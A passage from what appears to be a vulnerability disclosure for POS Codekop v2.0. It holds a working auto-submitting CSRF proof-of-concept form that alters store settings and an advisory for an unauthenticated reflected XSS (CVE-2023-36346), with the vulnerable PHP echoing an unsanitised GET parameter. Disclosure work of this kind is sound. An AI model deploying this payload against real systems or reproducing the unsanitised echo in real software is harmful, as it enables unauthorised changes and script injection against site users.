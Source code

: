 PoC:
**csrf.html**
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/research/pos-kasir-php/fungsi/edit/edit.php?pengaturan=ubah" method="POST">
      <input type="hidden" name="namatoko" value="CV&#32;Daruttaqwa" />
      <input type="hidden" name="alamat" value="Ujung&#32;Harapan&#32;CSRF" />
      <input type="hidden" name="kontak" value="081234567890" />
      <input type="hidden" name="pemilik" value="Fauzan&#32;Falah" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

I also provide a video about how to exploit this vulnerability.
- [**POS Codekop v2.0 Cross Site Request Forgery**](https://www.youtube.com/watch?v=KxjsEqNWU9E)

## CVE-2023-36346 - Unauthenticated XSS

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE ID | [CVE-2023-36346](https://www.cve.org/CVERecord?id=CVE-2023-36346) |
| Classification | Cross-site scripting |
| Description | We found a reflected cross-site scripting (XSS) vulnerability on the "print.php" endpoint, specifically on the "nm_member" parameter. This endpoint is unauthenticated, meaning it does not require any form of authentication to access. |
| Required privilege | Unauthenticated |
| Affected Version | v2.0 (#0~gitebc5c29) |
| Patched Version | 2.0 (#0~git391d436) |
| Publicly disclosed | 23.06.2023 |

Vulnerable Code:
```php
<center>
  <p><?php echo $toko['nama_toko'];?></p>
  <p><?php echo $toko['alamat_toko'];?></p>
  <p>Tanggal : <?php  echo date("j F Y, G:i");?></p>
  <p>Kasir : <?php  echo $_GET['nm_member'];?></p>
</center>
```
The `nm_member` parameter is not secure because it lacks HTML sanitization, allowing attackers to inject XSS payloads.
